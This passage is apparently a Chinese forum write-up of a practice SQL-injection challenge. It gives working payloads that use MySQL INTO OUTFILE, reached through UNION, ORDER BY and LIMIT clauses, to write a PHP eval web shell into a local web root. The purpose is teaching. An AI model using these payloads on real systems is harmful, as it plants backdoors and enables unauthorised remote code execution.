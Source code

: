 ### 实战

回到题目  
union限制比较少  
`?id=-1 union select 1,2,"<?php @e val($_POST[_])?>",4,5 into outfile "D:/phpstudy_pro/WWW/phptrain/shell.php" --+`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8e444b022dbf153eb5aa4b919b291995c8b3ae45.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8e444b022dbf153eb5aa4b919b291995c8b3ae45.png)  
写入成功。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-51f660e6138ce3999a5ad15c96ff47402d7dc29a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-51f660e6138ce3999a5ad15c96ff47402d7dc29a.png)  
并且可以成功解析。

order by写webshell
-----------------

order by写shell网上资料还是比较少，这个确实琢磨了我一小会儿。  
首先`order by`后面可以接`into outfile`，我们还需要接一个可以控制执行结果的关键词。  
寻找了好久还是去问了万能的群里老哥。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1bc7eb58e06533b66fd36292d569ca1d9b19e494.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1bc7eb58e06533b66fd36292d569ca1d9b19e494.png)  
不得不说群里老哥是真的强。  
简单了解一下这些关键词的功能：  
执行`select * from sql_user where Id = '1' order by 1 INTO OUTFILE "D:/phpstudy_pro/WWW/phptrain/test.txt" FIELDS TERMINATED BY "," LINES TERMINATED by "\n"`  
查看文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1dc87ce07ccd560f2015cd7ea1339a6b051019d9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1dc87ce07ccd560f2015cd7ea1339a6b051019d9.png)  
可以看到是定义列、行连接符的功能，也就是说可以控制文件内容了，那么写shell就如喝水一般。  
`?order=1 INTO outfile "D:/phpstudy_pro/WWW/phptrain/shell1.php" LINES TERMINATED BY "<?php @e val($_POST[_])?>"`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5ca0db8933fca42eceb0d137de3ecabeac2f3bac.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5ca0db8933fca42eceb0d137de3ecabeac2f3bac.png)  
写入成功。  
PS：一开始用大写`OUTFILE`写不进，发现是题目源码的问题。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c3162b9d39986ec8f48e32269c8fa6c1518862a0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c3162b9d39986ec8f48e32269c8fa6c1518862a0.png)  
只匹配小写`file`才进行拼接。

limit写shell
-----------

limit后面依然可以接`into outfile`所以我们同样可以利用`FIELDS TERMINATED BY`写shell。  
`?limit=0,1 into outfile "D:/phpstudy_pro/WWW/phptrain/shell2.php" LINES TERMINATED BY "<?php @e val($_POST[_])?>"`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0bbd133613ec415df090cbcdd3d87d2e48fbc39f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0bbd133613ec415df090cbcdd3d87d2e48fbc39f.png)
